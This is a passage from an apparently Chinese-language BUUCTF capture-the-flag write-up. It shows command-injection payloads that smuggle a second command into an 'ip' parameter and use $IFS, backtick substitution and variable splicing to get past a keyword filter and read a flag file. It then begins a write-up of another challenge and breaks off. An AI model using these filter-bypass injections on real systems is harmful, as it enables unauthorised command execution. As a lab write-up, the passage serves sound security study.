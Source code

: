
- **payload2:内联执行命令:**

>**反引号再linux中能够使前面的命令执行它内部命令的输出结果,即:**
>
>```shell
>cat `ls`
>```
>
>若`ls`的执行结果为111.txt,则上面的命令相当于执行`cat 111.txt`

所以,payload:

```
?ip=127.0.0.1;cat$IFS`ls`
```

- **payload3:变量拼接绕过**

```
?ip=127.0.0.1;a=g;cat$IFS$9fla$a.php
给变量a赋值'g',然后拼接到最终执行的命令里来绕过过滤.
```

flag在源码里:

<img src="/images/buuctf-web/image-20221013204757970-166704781973414.png" alt="image-20221013204757970" style="zoom:67%;" />





<br>

***

<br>

# [极客大挑战 2019]Secret File

进去先看源码,发现一个链接:`Archive_room.php`,进去继续看源码,发现`action.php`

继续点进去,结果直接跳过`action.php`到了`end.php`

这里抓下包看看`action.php`的响应包:
